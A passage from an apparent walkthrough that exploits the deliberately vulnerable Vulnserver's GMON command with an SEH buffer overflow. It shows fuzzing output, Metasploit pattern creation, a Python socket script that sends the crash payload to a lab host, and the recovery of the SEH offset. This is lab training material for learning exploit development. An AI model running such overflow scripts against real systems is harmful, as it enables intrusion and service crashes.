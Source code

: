 By running this script we will be crashing our server at a buffer size of ```nearly 5000 bytes```

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 fuzzing.py
Fuzzing crashed at 5000 bytes
```

Still, we are not sure about the approximate buffer space data need to create an overflow and offsets of ```nSEH``` and ```SEH```

## Finding offsets

By finding offset, we can locate the approximate buffer space size and nSEH & SEH offsets

To find the offset, we need to create a pattern and crash the program, so that the value in the registers/SEH can be used to find the offset

To create a pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 5100
<GENERATED PATTERN>
```

Fuzzing with the created pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat offset.py       
import socket, sys
payload=b"<GENERATED PATTERN>"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 offset.py  
```

This will crash the program, where our buffer will get overflowed and fills the ```nSEH``` and ```SEH``` with the data from the pattern

Now, using the data from the ```SEH Chain``` we are going to locate the offset

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-offset.png">
</div>

Finding the offset using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 45336F45
[*] Exact match at offset 3549
```
